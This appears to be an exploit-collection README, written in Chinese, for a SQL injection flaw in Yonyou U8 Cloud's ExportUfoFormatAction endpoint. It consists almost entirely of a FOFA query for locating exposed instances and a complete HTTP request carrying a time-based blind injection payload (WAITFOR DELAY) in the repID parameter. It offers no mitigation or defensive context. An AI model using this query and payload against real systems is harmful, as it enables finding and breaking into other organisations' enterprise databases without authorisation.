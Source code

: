 ## 用友U8cloud-ExportUfoFormatAction存在SQL注入漏洞

## fofa
```
app="用友-U8-Cloud"
```

## poc
```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iuforeport.rep.ExportUfoFormatAction&method=&repID=1%27);WAITFOR+DELAY+%270:0:5%27--+ HTTP/1.1
Host: url
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/json
Accept-Encoding: gzip
Connection: close

```
